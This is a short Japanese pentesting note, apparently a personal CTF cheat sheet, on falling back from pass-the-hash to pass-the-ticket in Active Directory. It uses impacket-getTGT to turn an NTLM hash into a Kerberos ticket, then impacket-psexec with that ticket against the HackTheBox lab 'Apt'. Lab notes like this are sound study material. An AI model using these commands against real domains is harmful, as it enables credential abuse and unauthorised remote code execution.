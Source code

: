 # Pass The Hashがいけそでいけねー場合はPass The Ticketを狙うべし

Kerberosチケットでの認証は許可されていて、NTLMでの認証は許可されていないかも。

**impacket-getTGT** でハッシュからTGTを作成。

```
impacket-getTGT -hashes <NTLM hash> -dc-ip <IP> <domain>/<username>
```

その後、チケットがつくれてuser.ccacheに保存されたら、以下のようにチケットを登録する：

```
export KRB5CCNAME=user.ccache
```

チケットができたら、今までpass the hashでやっていたimpacketを、このチケットをつかって行えばよい（オプション **-no-pass -k**）。

Aptではbruteforceした：

![gettgtbrute](https://user-images.githubusercontent.com/85237728/159113359-050c0e98-259d-406a-aff3-7230cc59e61a.png)

c.f. https://www.thehacker.recipes/ad/movement/kerberos/ptk

![gotticket](https://user-images.githubusercontent.com/85237728/159119239-5d4bf0fc-c1ed-4e54-9b3c-d47a97ff4ae1.png)

![klist](https://user-images.githubusercontent.com/85237728/159119325-89e415d6-1ce0-4296-930a-093bd0adb96d.png)

例：

```
impacket-psexec -dc-ip apt htb.local/henry.vison@apt -k -no-pass

```
